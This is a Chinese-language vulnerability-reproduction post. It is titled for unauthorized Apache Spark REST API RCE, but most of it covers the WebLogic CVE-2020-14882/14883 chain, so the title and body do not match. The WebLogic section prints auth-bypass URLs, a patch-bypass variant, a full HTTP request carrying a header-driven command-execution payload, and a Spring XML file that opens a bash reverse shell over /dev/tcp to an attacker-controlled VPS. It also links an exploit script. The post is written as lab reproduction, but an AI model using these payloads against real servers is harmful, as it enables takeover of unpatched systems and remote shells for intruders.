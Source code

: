 ```yaml
---
title: Spark未授权访问RCE    --花无名   
layout: mypost
categories: [漏洞复现]
---
```


## 1.Apache Spark 

Apache Spark 是专为大规模[数据处理](https://baike.baidu.com/item/数据处理/944504)而设计的快速通用的计算引擎。是一种与 Hadoop 相似的开源集群计算环境，但是两者之间还存在一些不同之处，这些有用的不同之处使 Spark 在某些工作负载方面表现得更加优越，换句话说，Spark 启用了内存分布数据集，除了能够提供交互式查询外，它还可以优化迭代工作负载。

## 2.漏洞介绍

系统未做身份验证，导致任意用户访问系统地址即可进入系统管理界面，并通过构造数据包，调用系统API接口，提交REST格式的API恶意代码，从而导致系统可被执行任意代码并getshell

## 3.漏洞复现

A：直接访问目标的8080端口即可进入系统管理界面，查看当前版本号为2.3.1（注：这里使用的靶场环境为vulfocus，故端口映射与系统原本默认端口不一致）

![image-20211106110800090](image-20211106110800090.png)

B：构造数据包：使用目标6066端口/v1/submissions/create构造数据包，提交REST格式的API恶意代码，并获取submissionId，其中appArgs参数值为需要执行的命令

![image-20211106111209048](image-20211106111209048.png)

C：成功获取submissionid后，访问 http://your-ip:8081/logPage/?driverId={submissionId}&logType=stdout 即可查看执行结果

![image-20211106111440687](image-20211106111440687.png)

## 漏洞说明

​	2020年10月21日，Oracle官方发布多个高危漏洞公告。其中组合利用CVE-2020-14882/ CVE-2020-14883可使未经授权的攻击者绕过WebLogic后台登录等限制，最终远程执行代码接管WebLogic服务器，利用难度极低，风险极大。

## 影响版本

​	10.3.6.0.0、12.1.3.0.0、12.2.1.3.0、12.2.1.4.0、14.1.1.0.0

## 复现

​	使用Vunhub靶场搭建，Weblogic 12.2.1.3.0版本

![image-20211110143835747](image-20211110143835747.png)

### 未授权访问-CVE-2020-14882

通过访问以下url可进行绕过验证，访问控制台

```
http://IP:7001/console/images/%252E%252E%252Fconsole.portal
http://IP:7001/console/css/%252E%252E%252Fconsole.portal
```

通过对路径的二次url编辑进行访问绕过，官方发布相对于的补丁可通过大小写的转化进行绕过补丁

```
/console/css/%252e%252e%252fconsole.portal //大写换成小写可绕过补丁
```

成功到控制台后，因权限比正常登录账户会小很多，缺少部署等功能。无法通过部署项目的方式进行RCE

![image-20211110144431426](image-20211110144431426.png)

### 远程RCE-CVE-2020-14883

通过配合未授权访问打组合拳，主要通过构造恶意请求的请求包，远程下载执行VPS内的恶意XML文件达到反弹shell 

#### 1.命令执行

直接可构造请求包进行命令执行，判断是否存在。拼接好get请求后，在后面加入需要执行的系统命令

Poc Windows

```
http://x.x.x.x:7001/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27cmd%27);%22)
```

Poc Linux

```
GET /console/css/%252e%252e%2fconsolejndi.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession(%27weblogic.work.ExecuteThread%20currentThread%20=%20(weblogic.work.ExecuteThread)Thread.currentThread();%20weblogic.work.WorkAdapter%20adapter%20=%20currentThread.getCurrentWork();%20java.lang.reflect.Field%20field%20=%20adapter.getClass().getDeclaredField(%22connectionHandler%22);field.setAccessible(true);Object%20obj%20=%20field.get(adapter);weblogic.servlet.internal.ServletRequestImpl%20req%20=%20(weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod(%22getServletRequest%22).invoke(obj);%20String%20cmd%20=%20req.getHeader(%22cmd%22);String[]%20cmds%20=%20System.getProperty(%22os.name%22).toLowerCase().contains(%22window%22)%20?%20new%20String[]{%22cmd.exe%22,%20%22/c%22,%20cmd}%20:%20new%20String[]{%22/bin/sh%22,%20%22-c%22,%20cmd};if(cmd%20!=%20null%20){%20String%20result%20=%20new%20java.util.Scanner(new%20java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter(%22\\A%22).next();%20weblogic.servlet.internal.ServletResponseImpl%20res%20=%20(weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod(%22getResponse%22).invoke(req);res.getServletOutputStream().writeStream(new%20weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();}%20currentThread.interrupt();%27) HTTP/1.1
Host: x.x.x.x:7001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ADMINCONSOLESESSION=z5ccPjdcv2OjbyH6CNmOHpulsxcMyPfnGM434PTom5QWuvadcN-u!-1073393521
Upgrade-Insecure-Requests: 1
cmd: whoami && pwd
```

#### ![image-20211110150339850](image-20211110150339850.png)2.恶意XML RCE

恶意XML文档准备，开启NC监听

XML写入需执行系统的命令

将准备的文档放置在目标机器可达的VPS内

```
 <beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
 <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>/bin/bash</value>
        <value>-c</value>
        <value><![CDATA[bash -i >& /dev/tcp/x.x.x.x/7777  0>&1]]></value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```

2.构造请求进行访问执行

```
/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://ip/2.xml"）
```

![image-20211110145601643](image-20211110145601643.png)



再次查看监听机可获取权限内容

#### 3.脚本利用 RCE

GGyao写的利用脚本：https://github.com/backlion/CVE-2020-14882_ALL

脚本支持命令回显检测，批量命令回显检测，外置xml无命令检测。根据攻击需求进行使用

![image-20211110150426994](image-20211110150426994.png)

# 修复

根据业务升级升级升级

关闭后台/console/console.portal的访问权限